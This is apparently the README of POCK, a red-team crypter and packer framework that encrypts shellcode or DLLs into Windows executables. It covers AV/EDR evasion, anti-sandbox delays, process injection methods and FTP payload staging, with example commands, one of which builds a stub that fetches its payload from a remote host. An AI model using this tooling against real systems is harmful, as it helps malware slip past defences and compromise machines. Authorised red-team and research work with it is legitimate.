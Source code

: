 # POCK - Polymorphic Obfuscation and Crypter Kit

**“UnPACKable payloads start here!”**  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

---

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```

---

**### Required Arguments**

**-i, --input**  
**Path to raw shellcode (.bin) or DLL (.dll) file**

**-o, --output**  
**Name of the compiled output executable**

**-e, --encryption**  
**Encryption method to use: aes or xor**

**-k, --key**  
**Key to encrypt the payload**

**-t, --type**  
**Payload type: shellcode or dll**

---

**### Optional Arguments**

**--inject <method>**  
**Injection method: apc, earlybird, fiber**

**--url <ftp_url>**  
**FTP URL for remote payload staging**

**--ftp-user <username>**  
**FTP username for authentication**

**--ftp-pass <password>**  
**FTP password for authentication**

**--entropy**  
**Add entropy-based execution delay**

**--fibonacci**  
**Add Fibonacci loop delay**

**--factorial**  
**Add factorial computation delay**

**--sleep <seconds>**  
**Sleep for specified seconds before executing**

**--hide**  
**Compile stub as a hidden (GUI) executable instead of console**

---

**## Example Commands**

```bash
# Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

# Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide

